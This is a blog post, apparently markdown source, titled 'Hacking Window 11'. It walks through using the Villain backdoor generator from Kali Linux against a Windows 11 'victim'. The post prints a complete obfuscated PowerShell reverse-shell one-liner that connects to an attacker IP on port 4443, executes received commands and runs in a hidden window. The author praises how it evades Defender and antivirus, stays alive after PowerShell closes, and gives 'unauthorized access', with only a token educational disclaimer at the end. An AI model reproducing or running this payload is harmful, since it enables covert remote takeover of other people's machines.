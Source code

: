 ```yaml
---
title: Hacking Window 11
author: Radeel Ahmad
pubDatetime: 2022-07-05T02:05:51Z
featured: false
draft: false
tags:
  - hacking
  - window hacking
  - window 11
description: "Hacking Window 11 Using PowerShell Script"
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Windows 11 (victim machine)
- Villain (In Kali Machine)

## Let’s Start…..
Open Kali machine and open Firefox, then download the [**Villain**](https://github.com/t3l3machus/Villain).

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/1.png" alt="Wifi hacking">

Now, open Villain after downloading.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/2.png" alt="Wifi hacking">

Install the requirement for the tool using the following command.
```bash
pip3 install -r requirements.txt
```
After the installation, we start the villain.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/3.png" alt="Wifi hacking">

command: **python3 Villain.py**

## Important

The villain is a Windows and Linux backdoor generator and multi-session handler that allows users to connect with sibling servers (other machines running Villain) and share their backdoor sessions, which is handy for working as a team.

Villain has a built-in auto-obfuscate payload function to assist users bypassing AV solutions (for Windows payloads). As a result, payloads are undetected (for the time being).

## Victim side

We run the script in the Powers Shell of the victim’s system (Window 11 Pro)

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/4.png" alt="Wifi hacking">

```bash
Start-Process $PSHOME\powershell.exe -ArgumentList {$client = N''e""w-O'b'je"c"t System.Net.Sockets.TCPClient('YOUR IP',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N''e'w'-O''b""je'c't -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (i''e""x $data 2>&1 | O""u''t-S''t""ring );$sendback2 = $sendback + 'PS ' + (p""w''d).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()} -WindowStyle Hidden
```


In this script enter the IP of your kali machine by using `ifconfig` command you see the IP of kali machine.

Fully updated. Windows 11. Everything is turned on for Defender protection and the firewall. Please check the screenshots below for confirmation.



## In Kali Linux

After you enter the script, press Enter, and BOOM 🤯! Just kidding, nothing significant will happen on the victim’s machine. However, you will observe a session opening on your terminal.


Here we can see `Session ID` — `IP Address` — `OS Type` — `User` — `Status`.

Using the `shell + session ID` command allows you to gain control over the victim’s computer andexecute various commands.


We use `systeminfo` command to see the detail of victim’s machine.


WE SUCCESSFULLY EXPLOIT VULNERABILITIES WITHIN THE WINDOWS 11 PRO OPERATING SYSTEM TO GAIN UNAUTHORIZED ACCESS 😈.

## Essential Things You Must Know ⚠

- If the victim closes the PowerShell, it won’t stop the reverse shell.
- The PowerShell command remains hidden and isn’t detected by Defender and other advanced antivirus programs.

---

Thank You for reading this article. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
